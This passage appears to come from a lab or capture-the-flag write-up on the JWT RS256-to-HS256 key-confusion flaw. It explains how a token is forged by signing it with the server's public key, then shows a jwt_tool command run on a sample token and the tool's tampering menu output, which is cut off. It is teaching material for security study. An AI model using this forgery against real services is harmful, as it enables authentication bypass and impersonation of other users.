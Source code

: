 The vulnerability is straight forward, The attacker can change the algorithm from `RS256` to `HS256` that means from RSA to HMAC .

So when you send the tampered cookie the code will call `verify(clientToken, serverHMACSecretKey)` instead of `verify(clientToken, serverRSAPublicKey)` because our token algorithm is `HS256`.

Now Public keys are available publicly and we can forge our new token by changing the algorithm from `RS256` to `HS256` and signing our token with the publicly available key.

##### The Exploitation

We can exploit it in several ways we will mention 3 methods:

1. Manually decoding / encoding and signing.
2. Writing your own script using any scripting language (ruby/python).
3. using [jwt_tool](https://github.com/ticarpi/jwt_tool).

The easiest way is using [jwt_tool](https://github.com/ticarpi/jwt_tool) let's see how.

1. clone the tool and install all dependencies.
2. Download the public key in the same directory.
3. Run the tool

Syntax : `./jwt_tool.py <paste your token>`

```py
./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsb2dpbiI6ImFuYXMifQ.abcWIUU4HvocTw1aiP44hjawkr5CUTTjRAb0QCb00l82vJjjs5Nuilm10eQMkGGlleH_99MSMgZZ8xlZksOtVWmcXXflAOm0pLiDhol_Fpnak-BMSUmc9CjtJvFy_0qkmKz8T4QWZ7gG2XjRGcsueNKS-Hx9ExGDlLAGsdmiwMiLzuNeO7iW7ECG9nUrNMpArL3s9cMi-NBiSQQd3DkJLNPZzk2J0Ew-aM3Z744uBH38oNKl4n2ktr4baQMxMIe7pecNLzGgQnZ9UPt-kgzqzPActSK0H4CLhJAekNv3QgOhtJxfeF3e9bMkVx8E4rhTnX4gTqfeu1CX-r1VCtaLdQ

```

##### OUTPUT

after running choose option 1 for tampering with the token.

```md
=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = JWT
[+] alg = RS256

Token payload values:
[+] login = anas

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------


########################################################
#  Options:                                            #
#                ==== TAMPERING ====                   #
#  1: Tamper with JWT data (multiple signing options)  #
#                                                      #
#             ==== VULNERABILITIES ====                #
#  2: Check for the "none" algorithm vulnerability     #
#  3: Check for HS/RSA key confusion vulnerability     #
#  4: Check for JWKS key injection vulnerability       #
#                                                      #
#            ==== CRACKING/GUESSING ====               #
```